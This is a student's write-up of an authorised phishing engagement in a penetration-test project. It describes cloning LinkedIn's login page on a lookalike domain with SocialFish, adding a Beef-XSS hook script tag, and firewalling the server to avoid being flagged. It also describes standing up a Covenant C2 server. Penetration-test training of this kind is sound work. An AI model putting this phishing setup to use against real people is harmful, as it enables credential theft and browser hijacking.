




The goal of our group project is to research what is required from IT-Workz to start providing penetration test as a service. To do that, our
group was tasked with conducting multiple pen tests to select the core requirements.

We have started with establishing contact with Hoefnagels - a company specializing in manufacturing fire safety equipment. The company is quite
old and has been run by the same family since its inception. Since Hoefnagels is a rather small organization, they do not have a designated IT
department. They rely on a 3rd party that set up and does maintenance on their infrastructure.

The scope of the pen test focused on simulating an external threat and one of the goals was to conduct a phishing campaign. I have decided to
pick up this task and work on it together with other group member.

## Prerequisites

Our first goals while getting started were:

- Finding the appropriate technologies for hosting the malicious website.
- Coming up with a plausible scenario, so that the employees might click on the email.

I have decided to focus more on the first one and started researching different phishing tools. We wanted the tooling to give us the possibility
to extract credentials of the victims and to be able to plant a malicious file on their computers.

## Website

Based on our needs, I have decided to use a phishing framework that would aid me with hosting and managing the website. My choice fell on the
tool called [SocialFish](https://github.com/UndeadSec/SocialFish). SocialFish provided an easy way to host custom html websites and attaching some malicious JavaScript, as well as easy to use interface.

Moreover, we decided to use Beef-XSS - a framework which gives the attacker the possibility to control victim's browser, after delivering a
JavaScript payload.

The website had to be accessible from the internet, so I have decided to host it on a DigitalOcean's virtual machine which could handle
SocialFish and run some additional software.

## Initial deployment and HTTPS



We deployed our virtual machine, and I have started setting up the required software:

- SocialFish
- Beef-XSS
- Uncomplicated Firewall (UFW)
- LetsEncrypt bot

### SocialFish and Beef-XSS

SocialFish is an open source, Python software which allows users to maintain and run phishing campaigns. The application is open source, which
allowed me to customize the behavior of the server to tailor it to our needs.

I downloaded a copy of LinkedIn's log in page, and uploaded it to the virtual machine to use it as a custom phishing page. This allowed me to add a
a script tag which injects a Beef-XSS payload into the victim's browser.

```html
<script src="http://127.0.0.1:3000/hook.js"></script>
```
Moreover, I used the Let's Encrypt certificate services to increase the legitimacy of my website. That way, the website seemed as if it was an actual
LinkedIn.

### Blocked domain and new website



However, few hours after deploying the website, I have discovered that the domain was blocked. Apparently Google's (probably) web crawlers flagged the
website as malicious, since the domain name was `linkedlin.ml` and it was a copy of the linkedin front page. Moreover, I was running Beef-XSS and
SocialFish, which most likely triggered the domain flagging.

This time, we have decided to apply a firewall on our droplet and whitelist Hoefnagels IP address that we obtained from the physical testing, as well as
 our home and school addresses. I have decided to use `UFW` which was preinstalled on that instance of the Ubuntu server.  
_I have blurred out the IP addresses since these are sensitive information_



The firewall now only allows the selected IP addresses to the port 443 running the website and port 7443 running a C2 server `covenant` which we planned
to use after compromising victims.

